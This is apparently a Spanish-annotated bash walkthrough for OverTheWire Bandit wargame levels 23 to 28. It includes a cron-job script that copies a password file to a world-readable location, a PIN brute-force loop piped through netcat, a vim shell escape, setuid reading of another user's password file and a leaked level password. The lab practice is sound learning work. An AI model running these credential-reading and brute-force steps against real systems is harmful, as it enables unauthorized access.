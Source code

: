 ```bash
nano script.sh        # Paso 4: Editar el archivo

**#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.lzkHx9wWPH/bandit24_password.log
chmod o+r /tmp/tmp.lzkHx9wWPH/bandit24_password.log**

chmod o+wx /tmp/tmp.lzkHx9wWPH # Paso 5: Añadir permisos para otros en el directorio
cp script.sh /var/spool/bandit24/foo/script # Paso 6: Copiar el archivo en la ruta /var/spool/bandit24/foo

#-------------------
# Formas de obtener el key en bandit24
#-------------------

# Paso 1: Crear un directorio temporal
mktemp -d        

# Paso 2: Recorrer valores del 0000 al 9999 y mostrar la cadena formada por la password
# del nivel anterior y cada posible combinción. Guardar cada salida en un archivo
# dentro del directorio temporal
for pin in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin; done > combinations.txt

# Paso 3: Utilizar el archivo creado anteriormente para probar conectarse con netcat
# al localhost por el puerto 30002.
cat combinations.txt | nc localhost 30002 | grep -vE 'Wrong|pincode'
# -v: Excluye las líneas coincidentes con el patrón.
# -E: Permite buscar más de una palabra o coincidencia.

#-------------------
# Formas de obtener el key en bandit25
#-------------------
Disminuir size de la consola (more), ingresar al modo visual, 
salir con esc, y usando los : set shell=/bin/bash

#-------------------
# Formas de obtener el key en bandit26
#-------------------
./bandit27-do cat /etc/bandit_pass/bandit27

#-------------------
# Formas de obtener el key en bandit27
#-------------------
git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

#-------------------
# Formas de obtener el key en bandit28
#-------------------
git clone ssh://bandit28-git@localhost:2220/home/bandit28-git/repo 
git log
git show 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7
```

---